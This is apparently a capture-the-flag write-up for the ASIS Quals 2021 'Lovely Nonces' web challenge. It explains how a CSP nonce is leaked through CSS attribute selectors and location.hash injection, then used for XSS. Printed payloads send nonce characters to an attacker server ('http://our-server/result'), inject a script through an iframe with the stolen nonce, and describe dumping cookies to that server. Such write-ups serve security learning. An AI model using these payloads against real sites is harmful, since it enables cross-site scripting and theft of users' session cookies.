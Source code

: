 ```yaml
---
title: "ASIS Quals 2021: Lovely Nonce"
date: 2021-10-24T13:49:21-07:00
draft: false
comments: false
toc: true
images:
categories:
  - writeups
tags: 
  - writeups
  - xss
  - xs-leak
  - web
---
```


Lovely Nonces is a challenge from ASIS Quals 2021, involving interesting CSP bypasses and stylesheet leaks. My teammate [Ming](https://ubcctf.github.io/authors/ming/) and I solved this challenge together, and a copy of the writeup (with the index.html file used in the exploit) can be found in the [UBC CTF blog](https://ubcctf.github.io/2021/10/asisquals-2021-lovelynonces/).

## TL;DR
CSS attribute selectors for a stylesheet leak of the CSP nonce combined with XSS.

## Recon

The CSP is implemented via a meta-tag in the DOM, and not through response header as is usually the common practise. It's just one directive, `script-src`, with the randomly generated nonce value, which we can try to retrieve.

```HTML
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-$NONCE$'">
```

{{< image src="/images/ASISnonceCSP.png" alt="CSP" position="center" style="border-radius: 8px;" >}}

(Note: it is also possible to extract this nonce from the `script` tag on the same page)

The cookie is set to the localhost domain - which is important moving forward with our exploit (we won't be injecting our payloads on the lovelynonce domain, it'll be on localhost). 

```js
await page.setCookie({
			name: 'flag',
			value: process.env.FLAG || "flag{fake-flag}",
			domain: "localhost",
			expires: now() + 1000
		})
```

On the HTML of the page is a location.hash navigator that sets an element in the HTML to the value of whatever `document.location.hash` was. 

```HTML
    <script nonce="$NONCE$">
    	document.location.hash = "";
    	window.onhashchange = ()=>{
    		if(document.location.hash) {
          		desc.innerHTML = decodeURIComponent(document.location.hash.slice(1));
				document.location.hash = "";
        	}
    	};
    </script>
```

Test this out by appending `#%3Cp%3Etest%3C%2Fp%3E` (just the URLencoded version of `#<p>test</p>`) to the challenge webpage and see how this code snippet works. This is an easy XSS vector, but obviously the CSP isn't letting us do something so trivial as `#<script>alert(1337)</script>`.

There's a report function that actually utilizes this browser-side JS to add a report form in the webpage. 

## Exploit in Detail 

The location hash is a potential XSS vector. You can copy-paste the webpage's nonce value into an iframe with the srcdoc attribute and achieve XSS. 

```HTML
<iframe srcdoc="<script nonce=[THEIR_NONCE]>alert(1)</script>"></iframe>
```

This works because iframes loaded with `srcdoc` aren't cross-origin. BUT, this also won't work for the challenge as the server generates unique nonces for each request, meaning that our nonce won't be the same nonce that the admin has when they load up our webpage with our iframe payload. The CSP is technically doing it's job, and even with the copy-pasted nonce and srcdoc iframe, this is just a self-XSS for now. Ideally, we want to find out the nonce of the webpage when the admin visits - and while they're still on the webpage, load up our iframe payload with the correct nonce.

Nonces implemented via the meta-tag, or nonces within the script-tag can be leaked through CSS attribute selectors. Setting the hash to: 

```HTML
<style>*{display:block}meta[content^="script-src nonce-a"]{background-image:url("http://our-server/result?nonce=a");}</style>
```

or

```HTML
<style>script[nonce^="a"]{display:block;background:url("http://our-server/result?nonce=a");}</style>
```

will send a request to our server in the event that any element with the right attribute stuck to it has a value starting with `script-src nonce-a`. We can extrapolate this further to brute-force each character in the attribute value and use fetches to our server to extract the correct 'next character' of the nonce.

If the CSS attribute selector successfully finds a tag that matches the above conditions, then a request is fired to our server. Otherwise, no request is made to our server.

To change the hash, we have the admin open a window to the vulnerable page (localhost:8000), identified by a name (
`open("http://localhost:8000/", "thisOneWindow")`), and after that, we can have the admin open a window with the same url, but with a different hash, and the same name (
`open("http://localhost:8000/#aaaaa", "thisOneWindow")`). The browser has this page cached, and as a result, we will still be using the same page, just with a different location hash.


## The Exploit Flow
The attack flow is as follows: 

1. Admin visits our server, hosting an index.html that will load the challenge page.

2. Iterating through the alphanumeric charset, the injected style tag in the hash tests for each char if it is in the nonce - and if so, sends a request back to our server.

3. That request is processed by our Node backend, which pushes the correctly guessed character into an internal array.

4. The JS in index.html (the browser JS) sets a short timeout and then tries to retrieve the value in that internal array from the backend, updating the nonce value guessed so far and testing the next char in line. 

5. This process repeats from step 2 until the entire nonce is leaked.

6. With the full nonce, we set the iframe payload with the correct, complete nonce value that dumps cookies back to our server.

7. Flag! `ASIS{nonces_disappointed_me_df393b}`


## Relevant Sources
* [Bypass CSP nonces with DOM XSS](http://sirdarckcat.blogspot.com/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)
	* Explains how to use CSS attribute selectors to get nonce.
* [Window Opener and XSS Vectors](https://medium.com/tsscyber/penetration-testing-window-opener-xss-vectors-part-2-7810ebfccc1d)
	* Explains how to exploit `location.hash`.
* `Robert's brain`
	* Found a way to inject a script tag that executes immediately even after the page has loaded.
